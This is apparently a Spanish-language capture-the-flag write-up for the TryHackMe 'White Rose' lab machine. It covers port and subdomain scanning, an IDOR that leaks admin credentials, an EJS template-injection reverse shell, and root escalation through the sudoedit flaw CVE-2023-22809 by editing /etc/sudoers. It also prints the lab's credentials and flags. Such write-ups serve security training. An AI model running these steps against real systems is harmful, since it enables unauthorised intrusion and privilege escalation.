 # White Rose Writeup

## Escaneo

Empezamos con la fase de escaneo utilizando la herramienta `nmap`:

```bash
nmap -p- --open -Pn -n -sV --min-rate 5000 -sS <HOST> -oN white -vvv
```

Podemos ver que los puertos abiertos son `22/ssh` y `80/http`:

```plaintext
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Al revisar el puerto 80, vemos que tiene un dominio. Registramos el dominio en `/etc/hosts` y encontramos una página de mantenimiento:

![Página de mantenimiento](anexo_white/white.png)

---

## Enumeración de Subdominios

Buscaremos subdominios utilizando `ffuf`:

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cyprusbank.thm -H "HOST:FUZZ.cyprusbank.thm" -fw 1
```

Encontramos los siguientes subdominios:

```plaintext
www
admin
```

Agregamos los dominios al archivo `/etc/hosts`. Al visitar el subdominio `admin`, encontramos una página de inicio de sesión:

![Página de inicio de sesión](anexo_white/white2.png)

---

## Acceso Inicial

Iniciamos sesión con las credenciales proporcionadas:

- Usuario: `Olivia Cortez`
- Contraseña: `olivi8`

Dentro de la página, revisamos las conversaciones de usuarios:

![Conversaciones de usuarios](anexo_white/white3.png)

Observamos una vulnerabilidad de **IDOR**, lo que nos permite ver conversaciones anteriores. Aquí encontramos las credenciales de administrador:

```plaintext
Usuario: Gayle Bev
Contraseña: p~]P@5!6;rs558:q
```

Al iniciar sesión con estas credenciales, podemos acceder a información adicional y obtener la primera respuesta:

![Respuesta obtenida](anexo_white/white4.png)

---

## Conexión a la Máquina

Interceptamos la solicitud de cambio de contraseña con Burp Suite:

![Interceptación de solicitud](anexo_white/white5.png)

El error reportado menciona `ejs`, lo que indica una posible vulnerabilidad **SSTI**. Creamos una reverse shell codificada en Base64 y la enviamos con Burp Suite:

![Reverse shell enviada](anexo_white/white7.png)

Logramos conectarnos a la máquina:

![Conexión establecida](anexo_white/white8.png)

Para una shell interactiva, ejecutamos:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```

---

## Primera Flag

Usamos el comando `find` para localizar la flag `user.txt`:

```bash
find / -name user.txt 2>/dev/null
```

La flag se encuentra en `/home/web`:

```plaintext
THM{4lways_upd4te_uR_d3p3nd3nc!3s}
```

---

## Escalada de Privilegios

Al usar `sudo -l`, vemos que podemos usar `sudoedit`:

```plaintext
User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Investigamos la versión de `sudoedit` (`1.9.12p11`) y encontramos la vulnerabilidad **CVE-2023-22809**. Configuramos el editor `SUDO_EDITOR` para modificar el archivo `sudoers`:

```bash
export SUDO_EDITOR='nano -- /etc/sudoers'
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

le damos todos los permisos a el  usuario web  en `sudoers`:

```plaintext
web ALL:(ALL:ALL) NOPASSWD: ALL
```

Luego, usamos `sudo su` para convertirnos en root y obtenemos la flag `root.txt`:

```plaintext
THM{4nd_uR_p4ck4g3s}
```

---

## Conclusión

Con esto, completamos la máquina **White Rose**. ¡Buen trabajo!

